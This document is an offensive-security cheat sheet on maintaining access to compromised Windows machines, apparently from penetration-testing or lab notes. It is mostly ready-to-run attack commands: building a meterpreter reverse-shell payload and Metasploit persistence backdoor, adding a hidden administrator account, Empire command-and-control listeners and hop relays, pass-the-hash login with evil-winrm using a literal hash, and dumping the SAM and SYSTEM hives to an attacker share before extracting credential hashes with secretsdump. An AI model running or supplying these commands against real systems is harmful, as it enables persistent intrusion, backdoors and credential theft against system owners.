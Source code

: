 # Maintaining Access

### Generating a Payload w/ msfvenom

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST= LPORT= -f exe -o shell.exe

use exploit/multi/handler

Background the meterpreter shell
```

### Run the Persistence Module

```
use exploit/windows/local/persistence

set session 1
```

If the system is shut down or reset for whatever reason you will lose your meterpreter session however by using the persistence module you create a backdoor into the system which you can access at any time using the metasploit `multi handler` and setting the payload to `windows/meterpreter/reverse_tcp` allowing you to send another meterpreter payload to the machine and open up a new meterpreter session.

## Add a user

```
net user hacker password123 /add
```

Next we add our newly created account in the "Administrators" and "Remote Management Users" groups:

```
net localgroup Administrators USERNAME /add
net localgroup "Remote Management Users" USERNAME /add
```

## RDP

```
xfreerdp /v:IP /u:USERNAME /p:PASSWORD
```

These switches are particularly useful:

- /dynamic-resolution -- allows us to resize the window, adjusting the resolution of the target in the process
- /size:WIDTHxHEIGHT -- sets a specific size for targets that don't resize automatically with /dynamic-resolution
- +clipboard -- enables clipboard support
- /drive:LOCAL_DIRECTORY,SHARE_NAME -- creates a shared drive between the attacking machine and the target. This switch is insanely useful as it allows us to very easily use our toolkit on the remote target, and save any outputs back directly to our own hard drive. In essence, this means that we never actually have to create any files on the target. For example, to share the current directory in a share called share, you could use: `/drive:.,share`, with the period (.) referring to the current directory

When creating a shared drive, this can be accessed either from the command line as `\\tsclient\`, or through File Explorer under "This PC":

```
xfreerdp /v:IP /u:USERNAME /p:PASSWORD +clipboard /dynamic-resolution /drive:/usr/share/windows-resources,share
```

## Empire

```bash
sudo apt install powershell-empire starkiller

sudo powershell-empire server

powershell-empire client

starkiller (emprieadmin:password123)
```

### Client

```
uselistener http
set Name CLIHTTP
set Host IP
set Port 8000
execute
back or main
```

List and kill listeners

```
listeners

kill LISTENER_NAME
```

Create stager multi/bash

### Empire Hop Listeners

```
uselistener http_hop
```

Specifically we need:

- A RedirectListener -- this is a regular listener to forward any received agents to. Think of the hop listener as being something like a relay on the compromised server; we still need to catch it with something! You could use the listener you set up earlier for this, or create an entirely new HTTP listener using the same steps we used earlier. Make sure that this matches up with the name of an already active listener though!
- A Host -- the IP of the compromised webserver (.200).
- A Port -- this is the port which will be used for the webserver hosting our hop files. Pick a random port here (above 15000), but remember it!

### Empire Modules

```bash
usemodule powershell/privesc/sherlock
```

## Evil-winrm

Share folder in memory

```bash
evil-winrm -u Administrator -H 37db630168e5f82aafa8461e05c6bbd1 -i 10.200.198.150 -s ./tools/Pivoting/Windows/
```

Upload file

```
upload /usr/share/windows-binaries/nc.exe c:\windows\temp\nc.exe
```

## Exfiltration Techniques & Post Exploitation

Local user hashes are stored in the Windows Registry whilst the computer is running -- specically in the HKEY_LOCAL_MACHINE\SAM hive. This can also be found as a file at C:\Windows\System32\Config\SAM, however, this should not be readable whilst the computer is running. To dump the hashes locally, we first need to save the SAM hive:

```
reg.exe save HKLM\SAM sam.bak
```

This saves the hive as a file called "sam.bak" in the current directory.

Dumping the SAM hive isn't quite enough though -- we also need the SYSTEM hive which contains the boot key for the machine:

```
reg.exe save HKLM\SYSTEM system.bak
```

Transfer the files over SMB for example

reg.exe save HKLM\SAM \\ATTACKING_IP\share\sam.bak

Retrieve the hashes

```
python3 /opt/impacket/examples/secretsdump.py -sam PATH/TO/SAM_FILE -system PATH/TO/SYSTEM_FILE LOCAL
```
